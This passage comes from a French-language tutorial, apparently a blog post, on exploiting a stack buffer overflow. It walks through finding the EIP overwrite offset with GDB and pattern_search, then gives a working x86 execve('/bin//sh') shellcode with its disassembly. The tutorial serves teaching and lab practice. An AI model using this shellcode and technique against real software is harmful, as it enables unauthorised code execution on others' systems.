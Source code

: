 "***Invalid $PC address: 0x......***", le programme a tenté de lire du code à une adresse invalide. Pour ma part, **0x41414641**.\
Maintenant remontez un peu plus haut dans GDB afin de voir quelle était l'instruction précédemment exécutée :

![gdb overflow crash](/img/gdb_overflow_ret.jpg)

Un schéma s'impose afin d'illustrer notre situation :

![overflow pattern](/img/overflow_pattern.jpg)

Vous voyez le souci ? Nous avons réécrit la sauvegarde de EIP servant à reprendre l'exécution de la fonction "main" et l'instruction "ret" l'a copiée dans le registre EIP. Le problème c'est que cette sauvegarde a été altérée par notre pattern et ne correspond pas à une adresse valide... du coup l'application a crashée.

![gdb overflow eip](/img/gdb_overflow_eip.jpg)

Maintenant il nous faudrait identifier à partir de combien de caractères nous atteignons cette sauvegarde afin de contrôler le registre EIP. Pour ça, la commande ```pattern_search``` va nous aider :

![gdb pattern search](/img/gdb_pattern_search.jpg)

C'est **à partir du 44ème caractère** que nous pouvons réécrire le registre EIP.

## Exploitation

Contrôler le flux d'exécution en modifiant le registre EIP c'est une chose, ouvrir un shell s'en est une autre... En effet, maintenant nous devons rediriger le flux d'exécution sur une zone mémoire possédant les instructions nécessaires à l'ouverture d'un shell. Comme ces instructions ne sont pas présentes en mémoire, nous allons donc nous en occuper :) Nous sommes capables d'écrire sur la pile (en entrant notre prénom), alors pourquoi ne pas écrire les instructions nécessaires dans le prénom (à la place du pattern) ?

### Le shellcode

Une suite d'instructions sous forme de chaîne de caractères est appelé un **shellcode**. À l'origine, un shellcode était destiné à ouvrir un shell. Avec le temps, le mot s'est généralisé et maintenant nous l'employons pour désigner tout code malveillant (pas seulement l'ouverture d'un shell). Vous vous souvenez de la notation "\x" pour écrire un caractère en hexadécimal ? Nous allons en avoir besoin pour notre shellcode.\
Je vous propose celui-ci :

`\x83\xC4\x32\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

Nous allons devoir utiliser un langage de programmation tel que Python pour interpréter notre shellcode. C'est-à-dire que chaque valeur hexadécimale va devoir être convertie en caractère. Par exemple, \x41 => "A".\
Tout d'abord, essayons de comprendre ce shellcode :

```
0:  83 c4 32                add    esp,0x32    ; esp = esp + 50
3:  31 c0                   xor    eax,eax     ; eax = 0
5:  50                      push   eax         ; pousse eax sur la pile
6:  68 2f 2f 73 68          push   0x68732f2f  ; pousse "//sh"
b:  68 2f 62 69 6e          push   0x6e69622f  ; pousse "/bin"
10: 89 e3                   mov    ebx,esp     ; adresse du haut de la pile dans ebx
12: 50                      push   eax         ; pousse eax
13: 53                      push   ebx         ; pousse ebx
14: 89 e1                   mov    ecx,esp     ; adresse du haut de la pile dans ecx
16: b0 0b                   mov    al,0xb      ; eax = 0xb (11) => id execve
18: cd 80                   int    0x80        ; déclenche un syscall (appel système)
```
